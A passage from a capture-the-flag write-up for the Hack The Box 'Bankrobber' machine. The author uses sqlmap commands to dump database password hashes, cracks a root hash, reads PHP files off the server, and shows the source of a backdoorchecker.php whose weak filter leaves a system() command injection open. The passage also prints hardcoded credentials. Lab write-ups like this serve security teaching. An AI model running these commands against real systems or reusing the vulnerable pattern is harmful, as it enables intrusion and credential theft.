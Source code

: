 I'm root so I should be able to get the passwords hashes with: `sqlmap -r search.req --passwords`

```
[*] pma [1]:
    password hash: NULL
[*] root [1]:
    password hash: *F435725A173757E57BD36B09048B8B610FF4D0C4
```

A quick search online shows the password for this hash is: `Welkom1!`

![](/assets/images/htb-writeup-bankrobber/hash1.png)

Nice but that doesn't really help me for now. Next I'll get the source code of various PHP files in the web app. This is a Windows box running Apache and PHP so I'm probably looking at a XAMPP stack. A quick search online shows the default base directory for XAMPP is: `C:/xampp/htdocs`

I can use the `--file-read` flag in sqlmap to read files:

`sqlmap -r search.req --file-read '/xampp/htdocs/index.php'`
`sqlmap -r search.req --file-read '/xampp/htdocs/admin/search.php'`
`sqlmap -r search.req --file-read '/xampp/htdocs/admin/backdoorchecker.php'`

The `backdoorchecker.php` is interesting because it contains an injection vulnerability in the system() function. There's some filtering done on the provided `cmd` parameter: it has to start with `dir` and can't contain `$(` or `&`. But that's not enough to prevent injecting commands. Source code shown below:

```php
<?php
include('../link.php');
include('auth.php');

$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad 	  = array('$(','&');
$good 	  = "ls";

if(strtolower(substr(PHP_OS,0,3)) == "win"){
    $good = "dir";
}

if($username == "admin" && $password == "Hopelessromantic"){
    if(isset($_POST['cmd'])){
        // FILTER ESCAPE CHARS
        foreach($bad as $char){
            if(strpos($_POST['cmd'],$char) !== false){
                die("You're not allowed to do that.");
            }
        }
        // CHECK IF THE FIRST 2 CHARS ARE LS
        if(substr($_POST['cmd'], 0,strlen($good)) != $good){
            die("It's only allowed to use the $good command");
        }

        if($_SERVER['REMOTE_ADDR'] == "::1"){
            system($_POST['cmd']);
        } else{
            echo "It's only allowed to access this function from localhost (::1).<br> This is due to the recent hack attempts on our server.";
        }
    }
} else{
```